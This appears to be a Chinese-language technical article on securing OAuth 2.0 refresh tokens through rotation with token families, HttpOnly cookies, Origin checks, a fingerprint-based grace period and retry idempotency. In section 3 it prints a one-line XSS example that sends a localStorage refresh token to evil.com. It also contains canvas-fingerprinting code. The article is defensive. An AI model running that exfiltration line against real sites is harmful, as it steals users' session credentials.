

## 前言 ##

认证系统是 Web 应用安全的核心边界。然而在实践中，许多团队对 OAuth 2.0 的实现只停留在"能用"的层面——把 Token 存进 localStorage，用一个固定的 Refresh Token 静默续期，然后默默祈祷没有攻击者盯上自己的用户。

这种做法在安全审计中几乎无法通过。

真正的工业级方案，是将三个机制协同部署：RTR（Refresh Token Rotation，刷新令牌轮换）、HttpOnly Cookie（仅 HTTP Cookie） 和 Grace Period（宽限期）。三者各司其职，互为补充，共同构成一道纵深防御体系。

本文将从原理到实现，完整剖析这套体系的每一层——包括 Token Family（令牌族）的精确吊销机制、OAuth Server（授权服务器）的 Origin（来源）校验与反向代理架构、客户端指纹的四个核心维度，以及解决网络抖动的客户端幂等性方案。

## 一、OAuth 2.0 令牌体系：对齐语境 ##

OAuth 2.0 中存在两类令牌：

| 令牌类型 | 生命周期 | 用途 | 泄露风险 |
| ----- | ------ | ----- | ------ |
| **Access Token（访问令牌）** | Access Token（访问令牌） | 携带在 API 请求中，证明访问权限 | 低，窗口期极短 |
| **Refresh Token（刷新令牌）** | Refresh Token（刷新令牌） | Access Token 过期后静默换取新令牌 | 高，长期有效 |

Access Token 刻意设计为短命——即使泄露，攻击者的利用窗口极窄。但这带来了续期问题：Refresh Token 作为续期凭证，生命周期长，一旦泄露，攻击者可以在整个有效期内持续冒充用户，合法用户对此毫无感知。

保护 Refresh Token，是整套体系的核心命题。

## 二、第一层防线：Refresh Token Rotation 与 Token Family ##

### RTR 的核心规则 ###

传统方案中，一枚 Refresh Token 可以反复使用直至自然过期。RTR 将这一规则彻底改变：

> 每次使用 Refresh Token 换取新 Access Token 时，旧令牌立即失效，同时颁发一枚全新的 Refresh Token。

每次刷新，令牌链向前滚动一位：

```bash
登录
 └─ RT-v1
      └─ RT-v2（RT-v1 作废）
           └─ RT-v3（RT-v2 作废）
                └─ RT-v4（RT-v3 作废，当前有效）
```

攻击者即使窃取了某一枚历史令牌，也无法再次使用，因为它已经失效。

### 令牌复用检测：RTR 真正的价值 ###

RTR 的核心价值不只是"轮换"，而是内建的令牌复用检测（Token Reuse Detection）。

设想攻击场景：

- 用户持有 `RT-v3`，攻击者通过 XSS（Cross-Site Scripting，跨站脚本）或网络嗅探也窃取了 RT-v3
- 攻击者先用 `RT-v3` 换出 `RT-v4`；服务器将 `RT-v3` 标记为已使用
- 合法用户随后也来使用 `RT-v3`——服务器检测到：一枚已失效令牌正在被重复提交

这是明确的入侵信号。问题是：此时应该吊销哪些令牌？

- 只吊销 `RT-v3`？不够——攻击者换出的 `RT-v4` 仍然有效
- 吊销该用户所有令牌？过于粗暴——用户可能同时在手机、电脑、平板登录，一台设备出问题不应波及其他

这就是 Token Family（令牌族） 存在的原因。

### Token Family：精确吊销的数据基础 ###

Token Family 是从同一次登录产生、通过亲代关系串联起来的有向令牌链，所有节点共享同一个 family_id：

```bash
用户登录（family_id = f-abc）
    │
    └─ RT-v1 [id=rt-001, parent=null]
           │
           └─ RT-v2 [id=rt-002, parent=rt-001]
                  │
                  └─ RT-v3 [id=rt-003, parent=rt-002]
                         │
                         └─ RT-v4 [id=rt-004, parent=rt-003, 当前有效]
```

不同设备的登录产生独立的 Family，互不干扰：

```bash
用户 Alice
├── 手机登录  → family_id = f-abc → [RT链: v1→v2→v3（当前）]
├── 电脑登录  → family_id = f-xyz → [RT链: v1→v2（当前）]
└── 平板登录  → family_id = f-qrs → [RT链: v1（当前）]
```

手机端检测到复用攻击，只吊销 `f-abc` 一族，电脑和平板的会话完全不受影响。

### 数据库表设计 ###

Refresh Token 不能是无状态的 JWT（JSON Web Token），必须持久化以记录状态：

```sql
CREATE TABLE refresh_tokens (
    id               UUID PRIMARY KEY,
    family_id        UUID NOT NULL,
    user_id          UUID NOT NULL,
    parent_id        UUID REFERENCES refresh_tokens(id),
    device_hint      VARCHAR(64),       -- 辅助信息，如 "iPhone / Safari"
    is_used          BOOLEAN DEFAULT FALSE,
    is_revoked       BOOLEAN DEFAULT FALSE,
    used_at          TIMESTAMPTZ,
    created_at       TIMESTAMPTZ NOT NULL,
    expires_at       TIMESTAMPTZ NOT NULL,
    issued_child_id  UUID               -- 宽限期专用，记录已颁发的子令牌
);

CREATE INDEX idx_family   ON refresh_tokens(family_id);
CREATE INDEX idx_user_act ON refresh_tokens(user_id, is_revoked, expires_at);
```

### 完整的刷新逻辑 ####

```py
def handle_refresh(incoming_token_id, client_fingerprint):
    record = db.find(incoming_token_id)

    # ── 基础校验 ──────────────────────────────────────────────
    if not record:
        raise InvalidTokenError()

    if record.is_revoked:
        raise InvalidTokenError()

    # ── 复用检测 ──────────────────────────────────────────────
    if record.is_used:
        time_since_used = now() - record.used_at
        in_grace        = time_since_used < GRACE_PERIOD_SECONDS
        same_client     = fingerprint_matches(record.used_by, client_fingerprint)

        if in_grace and same_client:
            # 宽限期内的合法重试：返回已颁发的子令牌
            child = db.find(record.issued_child_id)
            return build_response(child)
        else:
            # 真正的复用攻击：吊销整族 + 记录告警
            db.revoke_family(record.family_id)
            security_log.alert("TOKEN_REUSE", record)
            raise TokenReuseError()

    # ── 正常轮换 ──────────────────────────────────────────────
    db.mark_used(incoming_token_id, client_fingerprint)

    new_rt = db.create_token(
        family_id  = record.family_id,
        user_id    = record.user_id,
        parent_id  = incoming_token_id,
    )
    db.set_issued_child(incoming_token_id, new_rt.id)

    return new_access_token(), new_rt
```

### Token Family 的清理策略 ###

Token Family 需要定期清理，防止数据库无限膨胀：

```sql
-- 整族最后一枚令牌过期超过 7 天后，安全删除
DELETE FROM refresh_tokens
WHERE family_id IN (
    SELECT family_id FROM refresh_tokens
    GROUP BY family_id
    HAVING MAX(expires_at) < NOW() - INTERVAL '7 days'
);
```

## 三、第二层防线：HttpOnly Cookie 与 Origin 校验 ##

### 存储位置决定攻击面 ###

客户端 JavaScript 可访问的任何存储——localStorage、sessionStorage、普通 Cookie——都是 XSS 的目标：

```js
// 攻击者只需注入一行代码
fetch('https://evil.com/steal?t=' + localStorage.getItem('refresh_token'));
```

`HttpOnly Cookie` 从根本上切断这条路：带有 HttpOnly 标志的 Cookie，任何 JavaScript 均无法读取或修改，只有浏览器在发起 HTTP 请求时才会自动携带。

### 完整的 Cookie 安全属性 ###

一枚安全的 Refresh Token Cookie 应具备以下全部属性：

```bash
  Set-Cookie: refresh_token=<value>;
  HttpOnly;           # JavaScript 不可读，防 XSS
  Secure;             # 仅 HTTPS 传输，防中间人
  SameSite=Strict;    # 仅同站请求携带，防 CSRF
  Path=/auth;         # 仅认证端点携带，缩小暴露面
  Max-Age=1209600;    # 14 天过期
```

| 属性 | 防御目标 | 缺失后果 |
| ----- | ------ | ----- |
| **`HttpOnly`** | XSS 读取 Token | 脚本可直接窃取 |
| **`Secure`** | 中间人嗅探 | HTTP 明文传输时 Token 裸露 |
| **`SameSite=Strict`** | CSRF（Cross-Site Request Forgery，跨站请求伪造） | 第三方站点可触发刷新请求 |
| **`Path=/auth`** | 横向暴露 | 所有路径请求都会携带 Token |


### OAuth Server 如何校验请求来源 ###

这里需要澄清一个常见误区：*OAuth Server 的"来源校验"与浏览器的 SOP（Same-Origin Policy，同源策略）是两个不同的概念*。

| 概念 | 判断主体 | 判断依据 | 目的 |
| ----- | ------ | ----- | ------ |
| **浏览器 SOP** | 浏览器 | 协议 + 域名 + 端口三元组 | 隔离不同站点的脚本访问 |
| **OAuth Server 来源校验** | 服务器 | 请求头中的 Origin + 预注册白名单请求头中的 Origin + 预注册白名单 | 确认请求来自合法客户端应用 |

OAuth Server 自身是内网 IP 这件事，对来源校验毫无影响。浏览器在发起跨域请求时，会自动附加 Origin 头，该头由浏览器强制填入，前端 JavaScript 无法伪造：

```bash
POST /auth/refresh HTTP/1.1
Host: auth.example.com            # 目标服务器（经反向代理映射到内网 IP）
Origin: https://app.example.com   # 浏览器自动填入，标明请求来源
Cookie: refresh_token=RT-v3
```

服务器端只需校验 Origin 是否在白名单中：

```py
ALLOWED_ORIGINS = {"https://app.example.com", "https://admin.example.com"}

def handle_request(request):
    origin = request.headers.get("Origin")
    if origin not in ALLOWED_ORIGINS:
        return 403

    response.set_header("Access-Control-Allow-Origin", origin)
    response.set_header("Access-Control-Allow-Credentials", "true")
```

### 白名单来自客户端注册 ###

ALLOWED_ORIGINS 中的域名来自 OAuth 的**客户端注册（Client Registration）**环节，在应用接入时声明：

```json
{
  "client_id":       "frontend-app-001",
  "allowed_origins": ["https://app.example.com"],
  "redirect_uris":   ["https://app.example.com/auth/callback"]
}
```

每次请求进来，OAuth Server 先用 client_id 查出注册配置，再比对 Origin 头。

### 反向代理：内网 IP 与公网域名的桥梁 ###

真实生产环境中，OAuth Server 位于内网，外部流量经由反向代理转发，透传关键请求头：

```bash
浏览器（公网）
  │  HTTPS → Host: auth.example.com
  ▼
Nginx 反向代理（公网 IP: 203.0.113.5）
  │  转发 + 注入头部：
  │    proxy_set_header X-Forwarded-For   $remote_addr;
  │    proxy_set_header X-Forwarded-Host  $host;
  │    proxy_set_header X-Forwarded-Proto $scheme;
  ▼
OAuth Server（内网 IP: 10.0.1.50:8080）
  │  读取 Origin 头 → 白名单校验
  │  读取 X-Forwarded-For → 客户端真实 IP（用于指纹）
  │  读取 X-Forwarded-Proto → 确认 HTTPS（拒绝 HTTP 来源）
```

OAuth Server 从不关心自己的 IP——它只关心请求头里 Origin 的值。

### CORS（Cross-Origin Resource Sharing，跨源资源共享）配置要点 ###

当前端与认证服务不同域时（如 app.example.com 调用 auth.example.com），前端必须声明携带凭据：

```js
fetch('https://auth.example.com/auth/refresh', {
  method: 'POST',
  credentials: 'include',   // 关键：允许跨域携带 Cookie
});
```

服务端响应头必须明确允许，且不能使用通配符：

```bash
Access-Control-Allow-Origin: https://app.example.com   # ❌ 不能用 *
Access-Control-Allow-Credentials: true
```

当 `credentials: 'include'` 时，Access-Control-Allow-Origin 若为 *，浏览器会直接拒绝响应。

## 四、第三层防线：Grace Period 与客户端指纹 ##

### RTR 的"阿喀琉斯之踵" ###

RTR 在理论上完美，但在真实网络环境中，存在一个经典竞态问题：

```bash
t=0  客户端携带 RT-v3 发起刷新请求
t=1  服务器处理成功：RT-v3 作废，颁发 RT-v4
t=2  响应在网络中丢失（超时、移动端切网、弱网抖动）
t=3  客户端未收到响应，重试，再次携带 RT-v3
t=4  服务器检测到 RT-v3（已使用）→ 全族吊销 → 强制登出
```

合法用户因为一次网络抖动，被误判为攻击者。在移动端弱网环境、地铁隧道、WiFi 与 4G 切换时，这是高频发生的真实场景。

### Grace Period 的机制 ###

Grace Period 为"已使用但合法"的 Refresh Token 提供一个短暂的再次使用窗口：

> RT-v3 被使用后，进入"宽限期"状态（而非立即硬失效）。在宽限期内（如 30 秒），持有相同客户端指纹的请求可以再次使用 RT-v3，服务器返回已缓存的 RT-v4，而不重新生成。

宽限期参数选择的权衡：

| 时长 | 优点 | 缺点 |
| ----- | ------ | ----- |
| **< 5 秒** | 攻击窗口极小 | 高延迟网络仍会误伤用户 |
| **10~30 秒（推荐）** | 覆盖绝大多数重试场景 | 攻击者有限窗口 |
| **> 60 秒** | 用户体验极佳 | 显著削弱 RTR 安全价值 |


宽限期的安全性，很大程度上取决于客户端指纹的准确性——这是区分"重试的合法用户"与"复用令牌的攻击者"的关键。

### 客户端指纹：四个核心维度 ###

#### 维度一：`Intl.DateTimeFormat().resolvedOptions().timeZone` ####

返回设备的 IANA（Internet Assigned Numbers Authority，互联网号码分配机构）时区数据库标准命名，格式为区域/城市：

```js
Intl.DateTimeFormat().resolvedOptions().timeZone
// "Asia/Shanghai" / "America/New_York" / "Europe/London"
```

时区是用户地理位置的强信号，且很难在不影响系统功能的情况下伪造。结合 UTC（Coordinated Universal Time，协调世界时）偏移量可做交叉验证：

```js
const tz     = Intl.DateTimeFormat().resolvedOptions().timeZone;
const offset = -new Date().getTimezoneOffset();  // 单位：分钟，480 = UTC+8

// 若 timeZone="Asia/Shanghai" 但 offset=-300（UTC-5），则存在矛盾
// → 可能在使用 VPN 或被篡改
```

#### 维度二：`navigator.deviceMemory` ####

返回设备的近似物理内存量（GiB）。"近似"是有意的隐私设计：向下取整到最近的 2 的幂次，上限封顶为 8：

```bash
实际内存 → 报告值
  512MB  →  0.5
  3GB    →  2
  6GB    →  4
  64GB   →  8（上限）
```

该 API 仅 Chrome / Edge 支持，Firefox 和 Safari 返回 `undefined`——缺失本身即是信号，大概率意味着非 Chrome 内核浏览器：

```js
const memory = navigator.deviceMemory ?? null;
// Chrome: 4 / Firefox & Safari: null
```

#### 维度三：`navigator.hardwareConcurrency` ####

返回设备的逻辑处理器核心数（物理核心 × 超线程系数）：

```js
navigator.hardwareConcurrency
// 4（中端手机）/ 8（主流笔记本）/ 10（M1 MacBook Air）/ 16（高端 PC）
```

结合 User-Agent 可做合理性交叉验证：

```js
const cores = navigator.hardwareConcurrency;
const ua    = navigator.userAgent;

// UA 声称是 iPhone，但核心数为 16？→ 可疑
if (ua.includes('iPhone') && cores > 8) {
  suspicionScore += 10;
}
```

Firefox 在隐私保护模式下将此值固定返回为 2，这本身也是可检测的特征。

#### 维度四： Canvas 指纹 ####

Canvas 指纹是唯一性最强的浏览器指纹技术，利用的核心事实是：

> 即使使用相同的绘图指令，不同设备 / 浏览器 / 操作系统渲染出的像素数据存在细微差异。

这些差异来自各平台字体渲染引擎、GPU 驱动浮点精度、子像素渲染规则的底层不同：

```bash
字体渲染引擎差异：
  Windows  → ClearType（子像素 RGB 渲染）
  macOS    → CoreText（Quartz 抗锯齿）
  Linux    → FreeType（多种 hinting 模式）
```

完整实现：

```js
function getCanvasFingerprint() {
  const canvas  = document.createElement('canvas');
  canvas.width  = 280;
  canvas.height = 60;
  const ctx     = canvas.getContext('2d');

  // 渐变背景：强迫 GPU 做色彩插值，放大跨设备差异
  const gradient = ctx.createLinearGradient(0, 0, 280, 0);
  gradient.addColorStop(0,   '#f00');
  gradient.addColorStop(0.5, '#0f0');
  gradient.addColorStop(1,   '#00f');
  ctx.fillStyle = gradient;
  ctx.fillRect(0, 0, 280, 60);

  // 文本渲染：字体引擎差异的主要来源
  // emoji + 多语言字符，触发 Unicode 渲染路径
  ctx.fillStyle = 'rgba(255,255,255,0.8)';
  ctx.font      = '16px Arial, sans-serif';
  ctx.fillText('Hello, 世界 🌍 Ж Ñ', 10, 35);

  // 阴影叠加：触发合成器路径差异
  ctx.shadowColor   = 'rgba(0,0,0,0.5)';
  ctx.shadowBlur    = 4;
  ctx.shadowOffsetX = 2;
  ctx.font          = '12px "Courier New", monospace';
  ctx.fillStyle     = '#ff0';
  ctx.fillText('fingerprint-v2', 10, 52);

  // 提取像素数据并哈希
  const pixels = ctx.getImageData(0, 0, 280, 60).data;
  return fnvHash(pixels);
}

function fnvHash(pixels) {
  let hash = 0x811c9dc5;
  for (let i = 0; i < pixels.length; i += 4) {
    hash ^= pixels[i];                  // R
    hash = (hash * 0x01000193) >>> 0;
    hash ^= pixels[i + 1];             // G
    hash = (hash * 0x01000193) >>> 0;
    hash ^= pixels[i + 2];             // B
    hash = (hash * 0x01000193) >>> 0;
  }
  return hash.toString(16).padStart(8, '0');
}
```

Canvas 指纹的稳定性：

| 场景 | 指纹是否变化 |
| ----- | ------ |
| 同设备刷新页面 | 不变 |
| 同设备清除 Cookie | 不变（不依赖存储） |
| 同设备升级浏览器小版本 | 通常不变 |
| 更换显卡驱动 | 可能变化 |
| 换一台相同型号的电脑 | 通常不同（这正是其价值） |

反指纹技术的存在：Brave 浏览器默认对 `getImageData()` 的结果添加随机噪声；Firefox 开启 `privacy.resistFingerprinting` 后返回全黑像素。但"每次都不同"或"所有用户指纹相同"本身就是可检测的异常特征。

#### 综合指纹的构建 ####

```js
async function buildFingerprint() {
  const components = {
    timezone:     Intl.DateTimeFormat().resolvedOptions().timeZone,
    canvas:       getCanvasFingerprint(),
    cores:        navigator.hardwareConcurrency,
    memory:       navigator.deviceMemory ?? null,
    language:     navigator.language,
    screenRes:    `${screen.width}x${screen.height}`,
    pixelRatio:   window.devicePixelRatio,
    utcOffset:    -new Date().getTimezoneOffset(),
  };

  // 稳定维度组合哈希（交给服务端校验）
  const stable = [
    components.timezone,
    components.canvas,
    String(components.cores),
    String(components.memory),
    components.screenRes,
    String(components.pixelRatio),
  ].join('||');

  return {
    hash: await sha256(stable),
    raw:  components,
  };
}
```

四个维度的综合评价：

| 维度                    | 稳定性   | 唯一性   | 隐私侵入度 | 反指纹难度                     |
|------------------------|----------|----------|------------|--------------------------------|
| timeZone               | ★★★★☆    | ★★☆☆☆    | 低         | 难（需改系统设置）             |
| deviceMemory           | ★★★★★    | ★★☆☆☆    | 低         | 中（仅 Chrome 可用）           |
| hardwareConcurrency    | ★★★★★    | ★★★☆☆    | 低         | 中（可被固定为 2）             |
| Canvas 指纹            | ★★★★☆    | ★★★★★    | 中高       | 易（Brave 默认防护）           |
| 综合组合哈希           | ★★★★☆    | ★★★★★    | 中         | 较难                           |


## 五、客户端重试幂等性：解决网络抖动的工程实践 ##

Grace Period 是服务端的容错兜底，客户端重试幂等性则是在请求发出之前就消除问题。两者结合，才能在复杂网络环境下构建真正健壮的刷新机制。

### 问题一：并发刷新 ###

场景：同一 标签页 同时有多个 API 请求检测到 Access Token 过期，并发触发刷新。

```bash
[请求 A] AT 过期 → 刷新，携带 RT-v3
[请求 B] AT 过期 → 刷新，携带 RT-v3    ← 并发
[请求 C] AT 过期 → 刷新，携带 RT-v3    ← 并发

第一个到达：RT-v3 → RT-v4（成功）
第二个到达：RT-v3 已用 → 复用告警 → 全族吊销
```

解法：Promise 缓存锁

```js
let _refreshPromise = null;

async function getValidAccessToken() {
  if (isTokenValid(memoryAccessToken)) {
    return memoryAccessToken;
  }

  // 关键：如已有进行中的刷新，复用同一个 Promise
  if (!_refreshPromise) {
    _refreshPromise = executeRefresh()
      .finally(() => { _refreshPromise = null; });
  }

  return _refreshPromise;
}
```

无论有多少并发请求触发刷新，实际只有一个 HTTP 请求被发出，其余全部等待同一个 Promise resolve。

### 问题二：响应丢失后的重试 ###

场景：刷新请求已被服务器处理成功，但响应在回程中丢失；客户端超时重试，携带已失效的旧令牌。

#### 解法 A：幂等键（Idempotency Key） ####

客户端生成唯一请求 ID，服务端对相同 Key 的请求直接返回缓存响应：

```js
async function executeRefresh() {
  // 从 sessionStorage 取出或新建幂等键
  // 注意：AT 存内存，但幂等键需在页面刷新后保持，存 sessionStorage 合理
  let key = sessionStorage.getItem('refresh_idem_key');
  if (!key) {
    key = crypto.randomUUID();
    sessionStorage.setItem('refresh_idem_key', key);
  }

  const response = await fetch('/auth/refresh', {
    method: 'POST',
    credentials: 'include',
    headers: { 'Idempotency-Key': key },
    signal: AbortSignal.timeout(8000),
  });

  if (response.ok) {
    sessionStorage.removeItem('refresh_idem_key');  // 成功后清除
    const data = memoryAccessToken = (await response.json()).access_token;
    return data;
  }
  throw new Error(`Refresh failed: ${response.status}`);
}
```

服务端幂等处理：

```py
def handle_refresh(request):
    idem_key = request.headers.get("Idempotency-Key")

    if idem_key:
        cached = redis.get(f"idem:{idem_key}")
        if cached:
            return cached_response(cached)  # 直接返回上次结果

    result = perform_rotation(request)

    if idem_key:
        redis.setex(f"idem:{idem_key}", 60, serialize(result))  # 缓存 60 秒

    return result
```

#### 解法 B：指数退避 + 有限重试 ####

不依赖幂等键，依托服务端 Grace Period 处理重复，但严格控制重试行为：

```js
async function refreshWithBackoff(maxRetries = 2) {
  for (let attempt = 0; attempt <= maxRetries; attempt++) {
    try {
      const res = await fetch('/auth/refresh', {
        method: 'POST',
        credentials: 'include',
        signal: AbortSignal.timeout(5000),
      });

      if (res.ok) return await res.json();
      if (res.status === 401) throw new AuthError();   // 不重试

    } catch (err) {
      if (attempt === maxRetries || err instanceof AuthError) throw err;
      await sleep(Math.pow(2, attempt) * 1000);  // 1s, 2s
    }
  }
}
```

### 问题三：多标签页竞争 ###

场景：用户同时打开多个标签页，每个标签页有独立 JS 上下文，Promise 锁无法跨标签页生效。

解法：BroadcastChannel 跨标签页协调

```js
const channel = new BroadcastChannel('auth_channel');
let isRefreshing = false;

// 某个标签页开始刷新时广播通知
async function executeRefresh() {
  if (isRefreshing) return waitForRefreshResult();
  isRefreshing = true;
  channel.postMessage({ type: 'REFRESH_STARTED' });

  try {
    const res  = await fetch('/auth/refresh', { credentials: 'include' });
    const data = await res.json();
    memoryAccessToken = data.access_token;

    // 广播新 AT，其他标签页直接使用
    channel.postMessage({ type: 'TOKEN_REFRESHED', token: data.access_token });
    return data.access_token;
  } finally {
    isRefreshing = false;
  }
}

// 其他标签页监听结果
channel.addEventListener('message', ({ data }) => {
  if (data.type === 'TOKEN_REFRESHED') {
    memoryAccessToken = data.token;
    resolveWaiting(data.token);  // 唤醒等待中的请求
  }
  if (data.type === 'REFRESH_STARTED') {
    isRefreshing = true;         // 标记本标签页不再主动刷新
  }
});
```

### 幂等性的四层防御纵深 ###

```bash
Layer 1 ── Promise 缓存锁（应用层）
           解决：同标签页并发刷新

Layer 2 ── BroadcastChannel（跨标签页）
           解决：多标签页竞争刷新

Layer 3 ── 幂等键 / 指数退避（网络层）
           解决：响应丢失后的重试

Layer 4 ── Grace Period（服务端兜底）
           解决：上述所有措施均失效时的最后防线
```

越靠近客户端，越能从源头减少无效请求；越靠近服务端，越是最后的安全网。四层协同，方能应对真实网络环境的复杂性。

## 六、三层机制协同：完整的请求生命周期 ##

将所有机制整合在一起，一次完整的 Token 刷新流程如下：



客户端的存储职责划分：

| 数据 | 存储位置 | 原因 |
| ----- | ------ | ----- |
| Access Token | 内存变量（JS 变量） | 页面关闭即清除，XSS 无法持久化窃取 |
| Refresh Token | HttpOnly Cookie（服务器管理） | 客户端 JS 完全无感知 |
| 幂等键 | `sessionStorage` | 需要在网络重试间保持，但页面关闭后清除 |
| 设备 ID（可选） | `localStorage` + 加密 | 跨会话设备识别，非敏感辅助信息 |

## 七、安全边界与已知局限 ##

再完善的方案也有边界，诚实地了解它们至关重要。

- HttpOnly Cookie 无法防御的威胁：它只防止 XSS 读取 Token，不防止 XSS 直接操作 DOM 或发起 AJAX 请求；服务端渲染（SSR，Server-Side Rendering）场景中，攻击者可以通过控制页面内容绕过客户端防护；用户设备被完全控制（如根证书被替换）的场景无法防御。
- RTR + Grace Period 无法消除的窗口：攻击者若在宽限期内完成令牌复用，且成功伪造了客户端指纹，则在该窗口内服务器无法区分合法用户与攻击者。但此场景对攻击者的要求极高：必须在 10~30 秒内完成，且需同时伪造 IP、User- Agent 、Canvas 指纹等多个维度。
- 客户端指纹的根本局限：指纹不是身份验证手段，而是概率性过滤器。它的作用是"提高攻击者在宽限窗口内完整仿冒合法客户端的门槛"，而非"绝对识别攻击者"。高安全场景（金融、医疗）应选择更短的宽限期（< 10 秒），甚至完全禁用 Grace Period，转而依赖客户端幂等性完全解决重试问题。

## 八、实施清单 ##

### 服务端 ###

- Refresh Token 持久化存储，含 is_used、family_id、used_at、issued_child_id 字段
- 实现 Token Family 追踪与全族吊销逻辑
- 检测到复用时写入安全告警日志（不只是拒绝请求）
- Cookie 设置包含 HttpOnly、Secure、SameSite=Strict、Path=/auth
- CORS 配置中 Access-Control-Allow-Origin 使用明确域名，并开启 Allow-Credentials
- 反向代理正确透传 X-Forwarded-For、X-Forwarded-Proto
- 幂等键支持（Redis 缓存，TTL 60 秒）
- 定期清理过期令牌记录

### 客户端 ###

- Access Token 只存储在内存变量中，不写入任何持久化存储
- 刷新请求加 Promise 缓存锁，防止同标签页并发
- 多标签页使用 BroadcastChannel 协调刷新
- 实现带指数退避的有限重试（最多 2 次）
- Access Token 过期前主动静默刷新（剩余 TTL < 1 分钟时触发）
- 对 401 响应实现最多一次的自动重试，避免无限循环
- 刷新失败时清除本地状态并重定向至登录页

### 监控与运维 ###

- 监控 TOKEN_REUSE_DETECTED 事件，接入告警系统
- 监控刷新失败率，异常上升时及时介入
- 定期审计 allowed_origins 白名单，移除不再使用的域名
- 高安全场景考虑分级令牌策略（普通操作 vs 敏感操作使用不同有效期）


## 结语 ##

Refresh Token Rotation、HttpOnly Cookie 和 Grace Period 并不是三个独立的功能开关，而是一套有机的安全协作体系：

RTR 将令牌的攻击窗口从"整个生命周期"压缩到"下一次刷新前"，并内建了令牌复用检测；Token Family 在检测到入侵时实现精确的最小化吊销，不误伤其他设备的合法会话；HttpOnly Cookie 从存储层切断 XSS 的读取路径，让最危险的资产对脚本完全不可见；Origin 校验与反向代理架构 确保只有预注册的合法客户端能够访问认证端点；Grace Period + 客户端指纹 在现实网络的不确定性中提供有界的容错缓冲；客户端幂等性 则从源头减少了不必要的重试请求，让服务端的容错机制成为真正的最后一道防线。

> 安全设计的本质，不是堵死所有漏洞，而是让每一次攻击都有代价，让每一次入侵都留下痕迹，让每一次误判都有兜底的纠错机制。

这套体系的最终目标，是构建一个攻击代价高、检测能力强、用户体验不妥协的现代认证基础设施。
